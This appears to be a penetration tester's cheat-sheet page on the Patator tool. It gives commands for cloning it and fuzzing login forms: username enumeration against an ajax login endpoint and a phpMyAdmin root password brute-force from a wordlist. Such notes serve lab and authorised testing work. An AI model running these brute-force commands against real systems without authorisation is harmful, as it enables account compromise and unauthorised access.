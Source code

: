 ```bash - kali
git clone https://github.com/lanjelot/patator && cd patator
```

#### Blind SQL injection
[[1.7_Blind SQLi]]

#### Fuzz Get Request
```bash - kali
python3 patator.py http_fuzz method=GET url="http://$TARGET/ajax.php?fun=login&username=FILE0&password=test" 0=users.txt -x ignore:fgrep='invalid user'
```

#### Fuzz Post Request
```bash - kali
python3 patator.py http_fuzz url=http://$TARGET/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=passwords.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
```

#### Attack from Burp request
Place in your FILE placeholders where necessary.  Below, we see in the password field.

![[Pasted image 20220318104320.png]]

Right click > copy to file > "copy to file" as text file.





